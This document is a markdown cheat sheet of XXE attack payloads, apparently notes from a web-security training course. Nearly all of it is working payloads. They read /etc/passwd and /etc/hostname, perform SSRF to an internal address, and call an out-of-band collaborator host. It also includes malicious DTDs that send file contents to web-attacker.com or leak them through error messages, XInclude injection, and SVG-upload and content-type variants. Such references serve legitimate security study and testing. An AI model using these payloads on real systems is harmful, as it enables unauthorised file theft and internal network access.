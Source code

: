 ## Exploiting XXE to retrieve files
- \<!DOCTYPE foo [\<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
- \<stockCheck>\<productId>&xxe;\</productId>\</stockCheck>

## Exploiting XXE to perform SSRF attacks
- \<!DOCTYPE foo [\<!ENTITY xxe SYSTEM "internal_ip(http://192.168.1.6/)">]>
- \<stockCheck>\<productId>&xxe;\</productId>\</stockCheck>

## Blind XXE vulnerabilities
### XXE using out-of-band (OAST) techniques [external entities]
- \<!DOCTYPE foo [\<!ENTITY xxe SYSTEM "http://9nxkca5ojulo165yslazrdkujlpcd1.burpcollaborator.net">]>
- \<stockCheck>\<productId>&xxe;\</productId>\</stockCheck>

### XXE using out-of-band (OAST) techniques [parameter entities]
- \<!DOCTYPE foo [\<!ENTITY % xxe SYSTEM "http://9nxkca5ojulo165yslazrdkujlpcd1.burpcollaborator.net"> %xxe;]>

### Exploiting blind XXE to exfiltrate data out-of-band
#### On attackers server host this malicious dtd
- \<!ENTITY % file SYSTEM "file:///etc/hostname">
- \<!ENTITY % eval "\<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
- %eval;
- %exfiltrate;

#### Send this in XML payload
- \<!DOCTYPE foo [\<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>

### Exploiting blind XXE to retrieve data via error messages
#### On attackers server host this malicious dtd
- \<!ENTITY % file SYSTEM "file:///etc/passwd">
- \<!ENTITY % eval "\<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
- %eval;
- %error;

#### Send this in XML payload
- \<!DOCTYPE foo [\<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>

### Exploiting blind XXE by repurposing a local DTD
- \<!DOCTYPE foo [\<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
\<!ENTITY % custom_entity '
\<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
\<!ENTITY &#x25; eval "\<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>

### Locating an existing DTD file to repurpose
- Linux systems using the GNOME desktop environment often have a DTD file at /usr/share/yelp/dtd/docbookx.dtd

## XInclude attacks
- Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document.
- In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a DOCTYPE element. However, you might be able to use XInclude instead.
-  To perform an XInclude attack, you need to reference the XInclude namespace and provide the path to the file that you wish to include. For example:
\<foo xmlns:xi="http://www.w3.org/2001/XInclude">
\<xi:include parse="text" href="file:///etc/passwd"/></foo>

## XXE attacks via file upload
- Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.
- \<?xml version="1.0" standalone="yes"?>\<!DOCTYPE test [ \<!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>\<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">\<text font-size="16" x="0" y="16">&xxe;\</text>\</svg>

## XXE attacks via modified content type
- Most POST requests use a default content type that is generated by HTML forms, such as application/x-www-form-urlencoded. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.
- Change Content-Type: application/x-www-form-urlencoded to Content-Type: text/xml
- Change foo=bar to \<?xml version="1.0" encoding="UTF-8"?>\<foo>bar\</foo>